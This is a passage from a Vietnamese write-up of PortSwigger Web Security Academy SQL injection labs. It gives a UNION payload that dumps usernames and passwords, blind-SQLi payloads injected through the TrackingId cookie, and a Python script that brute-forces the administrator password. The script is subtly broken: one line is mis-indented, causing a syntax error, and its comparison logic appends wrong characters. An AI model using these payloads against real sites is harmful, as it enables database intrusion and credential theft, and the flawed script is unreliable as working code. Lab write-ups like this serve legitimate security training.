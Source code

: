 ![image](https://hackmd.io/_uploads/rJsc81Zha.png)
Search keywork **postgre select with concat string mark**, mình được 
![image](https://hackmd.io/_uploads/BJApLJZhp.png)
Cho nên payload sẽ là `' UNION SELECT NULL,username || ':' || password FROM users--`
Dấu `:` để ngăn cách username với password. Nhập username và password của administrator ta sẽ pass bài lab này.

## Lab 11: Blind SQL injection with conditional responses
Description: Challenge blind SQLi đầu tiên, kết quả của các câu query sẽ không được display, thậm chí là lỗi cũng không được display. Nhưng app sẽ bao gồm 1 "Welcome back" message khi query trả về bất kỳ row nào. 
Có 1 bảng users chứa 2 cột username với password. Tìm cách lấy được password của admin và đăng nhập. Và lỗ hổng này xuất hiện ở cookie TrackingId

Ta sẽ check các dấu `'` hay `"`, rồi dấu comment `--` hay `#` dấu nào hợp lệ.
Ta được: `cookie: TrackingId=jE8Gp9AO7VaIUkVR'+OR+1=1--;session=cVmOaF2JVU0PLsjtGxuODJmhPeQrofxd`

Vì đây là blind SQLi nên ta không thể sử dụng UNION attack mà ta sẽ dùng substring để tìm từng chữ cái của 1 giá trị nào đó, có thể là table name, column name nhưng ở đây đề bài đã cung cấp tên bảng `users` có 2 cột `username` và `password`

Check length của password với payload
`cookie: TrackingId=jE8Gp9AO7VaIUkVR'+(SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+LENGTH(password)>1)='a;session=cVmOaF2JVU0PLsjtGxuODJmhPeQrofxd`
Ta sẽ được length của password là 20.
Nếu password ở đây chứa các kí tự viết hoa, viết thường, kí tự đặc biệt, số thì mình sẽ thay đổi giá trị `string.ascii_lowercase + string.digits` nhưng mà hint là chỉ có lowercase và digit cho nên viết vậy để chạy nhanh hơn. Còn nếu không phải check `=` từng chữ cái chứ không sử dụng dấu `>`. 

```python=
import requests
import string
url = 'https://0a7600b00470eef9853ec7ff00f90073.web-security-academy.net/'
session = 'cVmOaF2JVU0PLsjtGxuODJmhPeQrofxd'
trackId = 'jE8Gp9AO7VaIUkVR'
password = ""
for i in range(1,21):
    check = False
    for j in [x for x in string.ascii_lowercase + string.digits][::-1]:
    trackingValue = f"{trackId}'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),{i},1)>'{j}"
        cookie_values = {'TrackingId': trackingValue, 'session': session}
        response = requests.get(url, cookies=cookie_values)
        if 'Welcome back' in response.text:
            check = True
            password += chr(ord(j) + 1)
            break
    if not check:
        trackingValue = f"{trackId}'+AND+SUBSTRING((SELECT+password+FROM+users+WHERE+username='administrator'),{i},1)>'z"
        cookie_values = {'TrackingId': trackingValue, 'session': session}
        response = requests.get(url, cookies=cookie_values)
        if 'Welcome back' in response.text:
            password += 'z'
        else:
            password += '9'

print(password)
```
